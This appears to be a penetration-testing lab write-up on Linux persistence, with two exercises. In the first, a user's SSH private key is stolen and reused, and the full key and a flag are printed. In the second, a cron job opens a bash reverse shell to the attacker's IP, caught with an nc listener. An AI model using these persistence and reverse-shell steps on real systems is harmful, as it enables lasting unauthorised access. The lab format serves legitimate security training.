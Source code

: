 # 🔬Linux Persistence

## Lab 1 - SSH

> 🔬 [Maintaining access I](https://www.attackdefense.com/challengedetails?cid=954)
>
> - Target IP: `192.3.140.3`
> - **Persistence** via **SSH Keys**, even after user credentials are modified
> - Initial credentials: `student `:`password `

```bash
ip -br -c a
	192.3.140.2/24
```

```bash
ssh student@192.3.140.3
```

### SSH Keys

```bash
ls -al
    drwxr-xr-x 1 student student 4096 Apr 29 13:40 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    -rw------- 1 student student    7 Apr 29 13:40 .bash_history
    drwx------ 2 student student 4096 Apr 29 13:39 .cache
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 .ssh
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait

cat wait
    Delete this file to trigger connection reset.
    Delete it only after planting the backdoor.

cd .ssh
ls
	authorized_keys  id_rsa
```

- Show the **private key** inside `id_rsa`

```bash
cat id_rsa

-----BEGIN RSA PRIVATE KEY-----
MIIEpAIBAAKCAQEA3JH1zC1WJuJ2KCPf1UdJe1dX+Uh4aE9RKsnuQk124eOB601/
8+Q6uJej38goVYQ7Dc4INK9Pq9cOs+uDQfRdjS1/9S7a0bDVORR6Q/E3dya0RDsz
LcaqX6LkPgnBZ2gS37E4mX6kiwEvYeqaAGyFqyfn+QPLos/Znc3EA4A71LPFg01b
AmpI6Gbaa7UUG+MCZoM0qDNo5Mzr5bmtCnVOKQ6n0Qx7znu5A2p00TfzmAo7erZ8
6xJUfXQoVFzqmINqhZKFZtjgV5nk/qHgn1BPyd6NoWeXADdIJKi7iq4jomT+Ny+/
HlxrAs1IJhxtrSExSMTkqmH/3KeX9ibBWXzY1QIDAQABAoIBAEO0liOvgvN6rlRR
9sJMGJVA0WNWyIcUWdDtnTJC/wwFvvqQlocx9oh1G7t0gFUHuuzY4pHxgl44LG40
C91x+kl8vvtu/4JAaqMT0xgJ8kGj4s/S8DnL8r5ajP8yFWj9fFWn27zaL/3vRjEj
R1R7+2f3XvCEJrz6Wk1jPRjqAvOeDRGH3ojsQwWO7k/FcvtqVBCPTGxyUBzXYv06
fM3OY5NL8D7t/bLoHa8dVhqjPnfUR7/IpiAdxEam1X0ObPB5YyBwSlpj6h904bF/
+U697IE23xjVmKMKcvTLe6QAxuRGSMf3/k3rCpDd3UxYF+P2e0CK3MefWjKpAe8r
2xRXyB0CgYEA+7zgmuhJqjik8tbt6b6+ZAJZ68TqLE1f3YEW/LivMeMj5tQZo/w+
0ZJnr6hR3eicMMxWKufGXSEtbs1TzMGvA5SXI9MTu62a5A2h7NDbLuKRwdjh9Qv6
TocFSMTSFcS4jvmbeYlVaSZWrJLLKY6lsjgdjDB4DH7Uc0Anxdr//GsCgYEA4E39
rlB7GWoCX7oXpSEGCHkQkmgX5IDU7+UUySFqD8fWoLsAc47R/TmDsKI+x83PF5jG
oo5P5LmUIeqnAKknTSyfD1YFtMa3tpTE68R9j/uueTK7v5izwWQjicmILm4RdkZJ
TVVH2b0aIQaUnpWWwHLa+BYx2jH4S2GxH89vz78CgYEA211SyApFLw0fR/Hc7kRm
OlYGL7qvaR2fvTDhbCYvnKRXQ61uDoUf5JXUvrBJbrtlZ+yX5dmE9OCVa6mHLbVV
oiQYtIIZ/wCgKbxrbybs6OVMqIQrGtNuMoHcK/Y/L/L19Lk0L2tqPy/GdamRWkxQ
vYXC0cfmxNS8oxWz0uktCrMCgYB6ufF9OMfBxgD6g4WAciss46CvmojIG71mbL8M
tV2kuMC0PN0oXRKELL3jHUKga/lNfefg9WC9UtS8IfmyINtCHJIDABwrJzdJjOiZ
326cIyb5ZUrYsCJaRAI117DNRqgDQL3GtEyV1CPBwin7Avny3mT0rKAmNIUYKaGS
OBuDXQKBgQDIRYOZEaV8rXx3wN24NYuByNUpRM3AIyPIwAuaPklWD6D2KdDveheI
lZtRb6Yzzmeon0DuLPdl7e/R7e5Z8Mx3o40aiJLULlw95JqON3J3W471PZAG1L/g
59PKgUMBNVX9UsUqvHyWlcY/FAT9UhWblgDoN3uXY9Db6q5x7hWzKw==
-----END RSA PRIVATE KEY-----
```

- Check the [`authorized_keys`](https://www.ssh.com/academy/ssh/authorized-keys-file) file too

```bash
cat authorized_keys
    ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQDckfXMLVYm4nYoI9/VR0l7V1f5SHhoT1Eqye5CTXbh44HrTX/z5Dq4l6PfyChVhDsNzgg0r0+r1w6z64NB9F2NLX/1LtrRsNU5FHpD8Td3JrREOzMtxqpfouQ+CcFnaBLfsTiZfqSLAS9h6poAbIWrJ+f5A8uiz9mdzcQDgDvUs8WDTVsCakjoZtprtRQb4wJmgzSoM2jkzOvlua0KdU4pDqfRDHvOe7kDanTRN/OYCjt6tnzrElR9dChUXOqYg2qFkoVm2OBXmeT+oeCfUE/J3o2hZ5cAN0gkqLuKriOiZP43L78eXGsCzUgmHG2tITFIxOSqYf/cp5f2JsFZfNjV root@localhost
```

### Persistence

- Exit the `SSH` session and download the `id_rsa` file

```bash
scp student@192.3.140.3:~/.ssh/id_rsa .
chmod 400 id_rsa
```

- Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.3.140.3
rm wait
# Old student's password do not work anymore
```

- Connect to the target using the downloaded private key

```bash
ssh -i id_rsa student@192.3.140.3
```



<details>
<summary>Reveal Flag: 🚩</summary>



`689227a4f1b97afe1ff5ebaf85babc19`

![](5-post-exploitassets/image-20230429155121140.png)

</details>



> 📌 Instead of using a user's private key, typically the attacker generates an SSH key pair on his system, keeps the private key on his system, transfers the public key onto the target system user's home `.ssh` directory and adds it in the `authorized_keys` file.
>
> - [SSH Penetration Testing](https://www.hackingarticles.in/ssh-penetration-testing-port-22/)

------

## Lab 2 - Cron Jobs

> 🔬 [T1168: Local Job Scheduling](https://www.attackdefense.com/challengedetails?cid=1553)
>
> - Target IP: `192.175.36.3`
> - **Persistence** via **Cron Jobs**
> - Initial credentials: `student `:`password `
> - 🔬 Check the [Cron Jobs Linux attacks Lab here](../1-system-attack/linux-attacks/cron.md)

- [Scheduled Task/Job - MITRE ATT&CK](https://attack.mitre.org/techniques/T1053/)
- [crontab.guru](https://crontab.guru/)

![](5-post-exploitassets/image-20230429160832734.png)

```bash
ip -br -c a
	192.175.36.2/24
```

```bash
ssh student@192.175.36.3
```

### Cron Jobs

```bash
ls -al
    drwxr-xr-x 1 student student 4096 Apr 29 14:04 .
    drwxr-xr-x 1 root    root    4096 Apr 26  2019 ..
    -rw------- 1 student student   18 Apr 29 14:04 .bash_history
    drwx------ 2 student student 4096 Apr 29 14:04 .cache
    -rw-r--r-- 1 student student   91 Apr 26  2019 wait

cat wait
    Delete this file to trigger connection reset.
    Delete it only after planting the backdoor.
```

```bash
cat /etc/cron*
```

![](5-post-exploitassets/image-20230429161108392.png)

### Persistence

- Create a **new Cron job** as the `student` user
  - The command inside the cron job will be executed with the `student`'s permissions'

```bash
echo "* * * * * /bin/bash -c 'bash -i >& /dev/tcp/192.175.36.2/1234 0>&1'" > cron

crontab -i cron
crontab -l
```

![](5-post-exploitassets/image-20230429161420696.png)

- Log back into the target system and trigger the password and connection reset

```bash
ssh student@192.175.36.3
rm wait
# Old student's password do not work anymore
```

- Setup a `nc` listener and wait for the `bash reverse shell` from the cron job **that runs every minute**

```bash
nc -nvlp 1234
```

![](5-post-exploitassets/image-20230429162413607.png)



<details>
<summary>Reveal Flag: 🚩</summary>



`79969e32981f722464fde4ce7f208883`

![](5-post-exploitassets/image-20230429162434591.png)

</details>

------

